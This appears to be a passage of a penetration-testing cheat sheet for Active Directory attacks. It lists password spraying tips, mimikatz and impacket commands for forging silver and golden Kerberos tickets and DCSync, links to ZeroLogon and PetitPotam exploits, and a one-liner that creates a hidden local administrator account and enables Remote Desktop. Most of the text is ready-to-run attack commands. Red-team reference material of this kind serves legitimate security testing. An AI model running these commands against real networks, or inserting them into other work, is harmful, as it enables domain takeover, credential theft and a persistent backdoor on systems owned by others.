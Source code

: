 ## Password Spray (use continue-on-success with CME)
- Weak Passwords (password, password1, Password1 passw0rd, etc)
- Cracked passwords
- Username as passwords
- Use Hydra and CME 

## Pass the Ticket (Silver Ticket)
```
kerberos::golden /user:<current user> /domain:<domain> /sid:<domain sid> /rc4:<rc4 hash of service account> /target:<target FQDN> /service:<service> /ptt

or

python3 ticketer.py -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain test.local -dc-ip 10.10.10.1 -spn cifs/test.local john
```
- Impacket gives TGS for SMB which can be used to gain shell using crackmapexec -X
- [Silver Ticket to RCE](https://www.exploit-db.com/docs/48455)
- sqlcmd to access the SQL server

## Pass the Ticket (Golden Ticket)
```
lsadump::lsa /patch
kerberos::golden /user:Administrator /domain:<domain> /sid:<domain sid> /krbtgt:<ntlm hash> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
lsadump::dcsync /user:<domain>\<user>
```

## GroupManagedServiceAccount Password
- [Attack](https://adsecurity.org/?p=4367)

## ZeroLogon
- https://github.com/dirkjanm/CVE-2020-1472
- https://github.com/SecuraBV/CVE-2020-1472

## PetitPotam
- PetitPotam.exe and PetitPotam.py

## Add Admin and Enable RDP
```
net user /add admin admin && net localgroup administrators admin /add & net localgroup "Remote Desktop Users" admin /add & netsh advfirewall firewall set rule group="remote desktop" new enable=Yes & reg add HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\SpecialAccounts\UserList /v admin /t REG_DWORD /d 0 & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v TSEnabled /t REG_DWORD /d 1 /f & sc config TermService start= auto
```

## RunAs 
```
runas.exe
```
